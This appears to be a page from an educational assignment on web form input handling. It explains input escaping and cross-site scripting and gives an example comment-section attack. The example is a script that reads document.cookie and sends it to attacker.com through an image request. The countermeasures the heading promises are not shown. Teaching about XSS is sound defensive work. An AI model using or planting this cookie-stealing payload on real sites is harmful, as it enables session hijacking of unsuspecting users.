 \documentclass{article}
\begin{document}
\section*{Working with Forms and User Input}

\subsection*{Assignment 1: User Input Handling and Escaping}
\subsubsection*{(a) Concepts of Input Escaping and XSS Attacks}
Input escaping is a technique used to sanitize and encode user input before displaying it in web pages. The purpose is to prevent the execution of malicious code embedded in user input, ensuring that the input is treated as data rather than executable code. By escaping characters with special meaning in HTML, JavaScript, or other contexts, the input is rendered harmless and displayed as intended.

Cross-Site Scripting (XSS) attacks occur when an attacker injects malicious scripts into a web application, which are then executed by unsuspecting users viewing the affected page. This attack is possible when user input is not properly sanitized or validated before being displayed.

\subsubsection*{(b) Example of XSS Attack and Countermeasures}
Let's consider a simple example involving a comment section on a blog website. Users can submit comments that are displayed on the blog post page. Suppose the website does not properly handle user input and fails to sanitize it.

An attacker can exploit this vulnerability by submitting a comment containing a malicious script, such as:

\begin{verbatim}
<script>
  // Malicious script to steal user information
  const data = document.cookie;
  const img = new Image();
  img.src = 'http://attacker.com/steal?data=' + encodeURIComponent(data);
</script>
\end{verbatim}

When other users view the blog post page, the script is executed in their browsers. It steals their cookies and sends them to the attacker's server.
\end{document}
